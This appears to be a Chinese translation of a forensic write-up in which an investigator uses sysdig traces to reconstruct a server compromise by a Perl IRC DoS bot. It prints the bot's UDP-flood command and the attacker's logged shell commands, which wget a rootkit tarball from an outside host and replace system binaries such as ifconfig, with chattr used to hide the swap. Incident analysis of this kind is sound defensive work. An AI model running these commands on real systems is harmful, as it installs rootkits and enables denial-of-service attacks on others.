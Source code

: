 ```bash
## !u !deop <channel> <nick>    ## !u @http <site> <time>                   ##           <recipient> <message>    ##
...
```

有趣的是，这真是一个可以从IRC命令的perl DoS客户端，因此攻击者可以轻松地管理大量此类机器。我也很幸运，wget一直在进行4KB I / O操作，因此，如果查看所有输出，就可以准确看到完整的源代码（上面已截断）。通读标题，我们可以看到它是如何工作的，它应该会收到@udp IRC消息，然后向受害者发送大量网络流量。让我们看看是否有人向它发送了命令：

```bash
$ sysdig -r trace.scap.gz -A -c echo_fds evt.buffer contains @udp
------ Read 67B from 170.170.35.93:39194->162.243.147.173:3132
:x!~xxxxxxxxx@xxxxxxxxx.la PRIVMSG #nanana :!u @udp1 39.115.244.150 800 300
```

如您所见，僵尸程序收到了一个TCP连接（大概是来自其所有者的），其中包含一个攻击端口800上IP 39.115.244.150的命令，该地址与我们在连接列表开头看到的IP和端口完全相同拥有数百兆的流量。这一切都说得通！但是服务器攻击并没有止步于此：

```bash
06:13:11 root) wget xxxxxxxxx.xp3.biz/other/rk.tar
06:13:12 root) tar xvf rk.tar
06:13:12 root) rm -rf rk.tar
06:13:12 root) cd /usr/sbin/rk
06:13:17 root) tar zxf mafixlibs
```

这是什么mafixlibs？Google表示它是某种rootkit，但我想查看该tar文件中包含的内容，因此我将再次使用sysdig，询问该tar进程编写的文件是什么：

```bash
$ sysdig -r trace.scap.gz -c topfiles_bytes proc.name contains tar and proc.args contains mafixlibs
Bytes     Filename
------------------------------
207.76KB  /usr/sbin/rk/bin/.sh/sshd
91.29KB   /usr/sbin/rk/bin/ttymon
80.69KB   /usr/sbin/rk/bin/lsof
58.14KB   /usr/sbin/rk/bin/find
38.77KB   /usr/sbin/rk/bin/dir
38.77KB   /usr/sbin/rk/bin/ls
33.05KB   /usr/sbin/rk/bin/lib/libproc.a
30.77KB   /usr/sbin/rk/bin/ifconfig
30.71KB   /usr/sbin/rk/bin/md5sum
25.88KB   /usr/sbin/rk/bin/syslogd
```

嗯，现在很清楚：一堆受损的二进制文件。因此，我猜想在我的spy\_users输出中，攻击者将替换系统用户：

```bash
06:13:18 root) chattr -isa /sbin/ifconfig
06:13:18 root) cp /sbin/ifconfig /usr/lib/libsh/.backup
06:13:18 root) mv -f ifconfig /sbin/ifconfig
06:13:18 root) chattr +isa /sbin/ifconfig
```

确实。他甚至还很友善，可以给我留下备份。到目前为止，一切都很好：我有几个IRC机器人，一些受损的系统二进制文件，并且设法解释了开始时看到的UDP流量泛滥。剩下的只有一件事：为什么topprocs\_net向我显示所有UDP流量都是由/usr/sbin/httpd和/usr/local/apac进程生成的，这些二进制文件我什至都没有看到从spy\_users输出？我猜想perl机器人本身就是发送UDP数据包的机器人，因为它是接收命令的机器人。让我们再次使用Sysdig并进入系统调用级别。我想查看与/usr/local/apac相关的所有事件：

```bash
$ sysdig -r trace.scap.gz -A evt.args contains /usr/local/apac
...
955716 06:13:20.225363385 0 perl (10200) < clone res=10202(perl) exe=/usr/local/apach args= tid=10200(perl) pid=10200(perl) ptid=7748(-bash) cwd=/tmp fdlimit=1024 flags=0 uid=0 gid=0 exepath=/usr/bin/perl
...
```

